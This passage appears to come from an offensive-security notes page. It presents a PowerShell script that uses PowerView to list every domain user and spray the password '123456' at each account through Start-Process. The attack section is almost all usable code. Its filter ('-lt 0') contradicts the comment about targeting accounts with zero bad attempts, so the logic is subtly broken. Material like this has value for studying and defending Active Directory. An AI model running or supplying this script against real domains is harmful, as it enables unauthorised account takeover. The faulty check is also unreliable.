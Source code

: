 ## <mark style="color:red;">Spraying with Start-Process</mark> <a href="#spraying-with-start-process" id="spraying-with-start-process"></a>

Similarly to dsacls, it's possible to spray passwords with `Start-Process` cmdlet and the help of PowerView's cmdlets:

```
# will spray only users that currently have 0 bad password attempts
# dependency - powerview

function Get-BadPasswordCount {
    param(
        $username = "username",
        $domain = "offense.local"
    )
    $pdc = (get-netdomain -domain $domain).PdcRoleOwner
    $badPwdCount = (Get-NetUser $username -Domain $domain -DomainController $pdc.name).badpwdcount
    return $badPwdCount
}

$users = Get-netuser -properties samaccountname | Select-Object -ExpandProperty samaccountname
$domain = "offense.local"
$password = "123456"

Write-Host $users.Count users supplied; $users | % {
    $badPasswordCount = Get-BadPasswordCount -username $_ -Domain $domain
    if ($badPasswordCount -lt 0) {
        Write-Host Spraying : -NoNewline; Write-host -ForegroundColor Green " $_"
        $credentials = New-Object System.Management.Automation.PSCredential -ArgumentList @("$domain\$_",(ConvertTo-SecureString -String $password -AsPlainText -Force))
        Start-Process cmd -Credential ($credentials)
    } else {
        Write-Host "Ignoring $_ with $badPasswordCount badPwdCount" -ForegroundColor Red
    }
}
```
